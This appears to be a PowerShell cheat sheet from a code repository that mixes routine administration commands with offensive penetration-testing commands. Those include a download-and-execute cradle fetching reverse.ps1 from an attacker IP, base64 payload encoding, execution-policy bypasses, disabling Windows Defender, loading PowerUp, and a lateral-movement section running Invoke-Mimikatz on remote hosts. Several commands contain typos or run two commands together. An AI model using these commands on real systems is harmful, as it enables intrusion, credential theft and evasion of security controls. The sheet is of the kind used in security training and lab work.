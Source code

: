 ###### powershell: find hidden files recursice  
`Get-ChildItem -Hidden -Recursive \path\`
  
###### powershell: compress (zip) a file  
`Compress-Archive -U -LiteralPath \source\path\ -DestinationPath \path\newfile`
  
###### powershell: unzip a file  
`Expand-Archive -LiteralPath \source\path\ -DestinationPath \path\target`  
  
###### powershell: extract string of command result  
`findstr "something"  `
  
###### powershell: show all bssids of saved wifi networks  
`netsh wlan show profiles * | findstr "SSID-Name"  `
  
###### powershell: allow execution of all ps scripts  
`Set-ExecutionPolicy Unrestricted`
  
###### powershell: list execution policies  
`Get-ExecutionPolicy -List`
  
###### powershell: display file contents  
`Get-Content <file>  `
  
###### powershell: CMDlet help  
`Get-Help <CMDlet> -Examples -Parameter Name`
  
###### powershell: display ps version  
`$PSVersionTable`
  
###### powershell: run PS v2  
`powershell.exe -version 2.0  `
  
###### powershell: list running services  
`Get-Service | where_object {$_.status -eq "Running"}  `
  
###### powershell: return services  
`get-service | measure-object  `
  
###### powershell: return list of PSDrives  
`get-psdrive  `
  
###### powershell: return only names  
`get-process | select -expandproperty name  `
  
###### powershell: export OS information to CSV  
`Get-WmiObject -class win32_operatingsystem | select -property * | export-csv c:\os.txt  `
  
###### powershell: download file over HTTP  
`(new-object system.net.webclient).downloadFile("url","dest")  `
  
###### powershell: list hostname and IP for all domain computers  
`Get-WmiObject -ComputerName <DC> -Namespace root\microsoftDNS -Class MicrosoftDNS_ResourceRecord  Filter "domainname=' <DOMAIN>'" | select textrepresentation  `
  
###### powershell donload file  
`IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/reverse.ps1')  `
`cat reverse.ps1 | iconv -t UTF-16LE | base64 -w0 powershell -enc "BASE64"`

###### Invoke Script
`.\Script.ps1`
`Invoke-Function`

###### Bypass execution policy
`Get-ExecutionPolicy`
`powershell.exe -ep bypass`
`powershell.exe -executionppolicy bypass .\script.ps1`

###### GetAliase
`Get-Alias -Name dir`
`Get-Alias -Definition Get-Childitem`

###### Get Command
`Get-Command -CommandType cmdlet`
`Get-Command -Name *process*`

###### Disable windows defender by admin
`Set-MpPreference -DisableRealtimeMonitoring $true`

###### Invoke script
`. .\Invoke-Encode.ps1`
`Import-Module .\PowerUp.ps1`
`Get-Module -ListAvailable`

###### Enum services path
`Get-WmiObject -Class win32_service |select pathname`

# Leteral moving
`New-PSSession -ComputerName op-terminalser`
`$sess = New-PSSession -ComputerName op-terminalser`
`Enter-PSSession -Session $sess`
`hostname`

`Invoke-Command -ScriptBlock{whoami,hostaname} -ComputerName ops-terminalser` #invoke command on other computer
`Invoke-Command -ScriptBlock{$who = whoami} -ComputerName ops-terminalser` #invoke command on other computer
`Invoke-Command -FilePath c:\temp\invoke-encode.ps1 -ComputerName ops-terminalser`
`powershell -ep bypass`
`. .\C:\Temp\Invoke-Mimikatz.ps1`
`Invoke-Command -ScriptBlock{Invoke-Mimikatz} -ComputerName ops-terminalser` #invoke command on other computer
`Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -ComputerName ops-terminalser` #invoke command on other computer

`$sess = New-PSSession -ComputerName Server1`
`Invoke-Command -Session $sess -ScriptBlock {$Proc = Get-Process}`
`Invoke-Command -Session $sess -ScriptBlock {$Proc.Name}`
